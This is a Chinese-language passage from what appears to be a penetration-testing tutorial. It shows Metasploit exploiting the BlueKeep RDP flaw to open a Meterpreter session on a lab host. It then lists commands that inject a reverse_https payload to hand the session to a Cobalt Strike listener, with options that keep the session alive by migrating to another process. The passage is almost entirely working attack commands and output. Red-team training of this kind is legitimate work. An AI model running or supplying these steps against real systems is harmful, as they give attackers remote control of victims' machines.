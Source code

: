 ```
[+] 192.168.175.177:3389  - The target is vulnerable. The target attempted cleanup of the incorrectly-bound MS_T120 channel.
[*] 192.168.175.177:3389  - Scanned 1 of 1 hosts (100% complete)
[*] 192.168.175.177:3389 - Using CHUNK grooming strategy. Size 250MB, target address 0xfffffa8028608000, Channel count 1.
[!] 192.168.175.177:3389 - <---------------- | Entering Danger Zone | ---------------->
[*] 192.168.175.177:3389 - Surfing channels ...
[*] 192.168.175.177:3389 - Lobbing eggs ...
[*] 192.168.175.177:3389 - Forcing the USE of FREE'd object ...
[!] 192.168.175.177:3389 - <---------------- | Leaving Danger Zone | ---------------->
[*] Sending stage (206403 bytes) to 192.168.175.177
[*] Meterpreter session 4 opened (192.168.175.200:4444 -> 192.168.175.177:49167) at 2020-07-26 05:57:22 -0400

meterpreter > 
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-07-26_17-57-47.png)

## 3、开始传递会话

首先，backgroud 会话

```
background
```

调用 payload_inject 模块

```
use exploit/windows/local/payload_inject
```

设置 HTTPS Payload

```
set payload windows/meterpreter/reverse_https
```

设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口

```
set lhost 192.168.175.200
set lport 443
```

设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。

```
set DisablePayloadHandler True
```

（可选）设置 PrependMigrate 为 True，此选项让 Metasploit Framework 前置 shellcode 在另一个进程中运行 payload stager，如果被利用的应用程序崩溃或被用户关闭，这会帮助 Beacon 会话存活。

```
set PrependMigrate True
```
